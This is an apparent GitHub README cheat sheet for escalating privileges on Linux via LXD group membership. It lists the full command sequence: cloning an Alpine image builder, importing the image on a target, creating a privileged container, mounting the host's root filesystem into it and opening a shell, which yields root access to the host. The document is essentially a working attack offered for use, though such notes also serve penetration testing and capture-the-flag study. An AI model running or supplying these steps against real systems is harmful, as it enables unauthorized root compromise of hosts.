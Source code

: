 # LXD-Privesc-CheatSheet

-if you can't find the git here it is for reference

git clone https://github.com/saghul/lxd-alpine-builder.git
                                                                                                                                                                                                                                           
-first you wanna build the LXD image                                                                                                                                                                                                       
                                                                                                                                                                                                                                           
sudo ./build-alpine -a i686                                                                                                                                                                                                                
                                                                                                                                                                                                                                           
-After that is done it will make a gunzip and send that over to the target                                                                                                                                                                 
-Next we will run a slew of commands since we are already in the LXD group                                                                                                                                                                 
-If not you will need to add it to usermod                                                                                                                                                                                                 
-Now we run a slew of commands                                                                                                                                                                                                             
-This makes the LXD image on the target host                                                                                                                                                                                               
                                                                                                                                                                                                                                           
lxc image import alpint-v3.12-i868-20200831_1748.tar.gz --alias alpine                                                                                                                                                                     
                                                                                                                                                                                                                                           
-Next we setup the LXD image on local with escalated priv                                                                                                                                                                                  
                                                                                                                                                                                                                                           
lxc init alpine hereiam -c security.privileged=true                                                                                                                                                                                        
                                                                                                                                                                                                                                           
-Now you need to add a HD for example sometimes it will be in /mnt/root other times no                                                                                                                                                     
                                                                                                                                                                                                                                           
lxc config device add hereiam host-root disk source=/ path=/mnt/root recursive=true                                                                                                                                                        
                                                                                                                                                                                                                                           
-Lastly we start the LXD                                                                                                                                                                                                                   
                                                                                                                                                                                                                                           
lxc start hereiam                                                                                                                                                                                                                          
lxc exec hereiam /bin/sh    
